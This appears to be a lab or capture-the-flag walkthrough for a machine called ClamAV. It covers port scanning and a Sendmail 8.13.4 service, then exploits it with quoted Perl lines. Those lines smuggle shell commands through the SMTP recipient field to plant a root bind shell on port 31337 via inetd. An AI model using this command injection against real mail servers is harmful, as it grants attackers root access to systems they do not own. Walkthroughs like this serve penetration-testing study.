





# ClamAV

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.66.42 -t full`

`nmapAutomator.sh -H 192.168.66.42 -t vulns`

### HTTP \(80\)

There is a page with a binary message.



Challenge accepted!



### SMTP \(25\)

We can see that Sendmail 8.13.4 is used.



## Exploitation

We find the following Sendmail + ClamAV RCE exploit:



The two lines in the Perl script:

```perl
print $sock "rcpt to: <nobody+\"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf\"@localhost>\r\n";
print $sock "rcpt to: <nobody+\"|/etc/init.d/inetd restart\"@localhost>\r\n";
```

appear to open port 31337 as a root shell.

After running the script, the port is indeed open.



Upon connecting to the bind shell, use `bash -i` to upgrade to a fully interactive shell.



